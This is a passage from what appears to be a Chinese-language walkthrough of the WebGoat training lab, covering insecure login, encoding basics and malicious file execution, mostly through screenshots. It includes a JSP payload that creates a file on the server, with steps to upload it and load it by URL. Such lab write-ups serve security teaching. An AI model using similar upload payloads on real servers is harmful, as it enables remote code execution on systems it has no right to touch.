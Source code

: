 ![image]({path}/129.png)


# Insecure Communication（不安全的通讯）
## Insecure Login（不安全登录）
使用调试器看到密码

![image]({path}/130.png)

![image]({path}/131.png)

第二阶段改成https

![image]({path}/132.png)

![image]({path}/133.png)

# Insecure Storage（不安全存储）
## Encoding Basics（加密基础）

随便输入一下字符串

![image]({path}/134.png)


# Malicious Execution（恶意执行）
## Malicious File Execution（恶意文件执行）

```
<HTML>
<%
java.io.File file = new java.io.File("/.extract/webapps/WebGoat/mfe_target/webgoat.txt");
file.createNewFile();
%>
</HTML>
```
![image]({path}/135.png)

![image]({path}/136.png)

保存成jsp上传

打开

```
http://192.168.1.210:7777/WebGoat/uploads/1.jsp
```
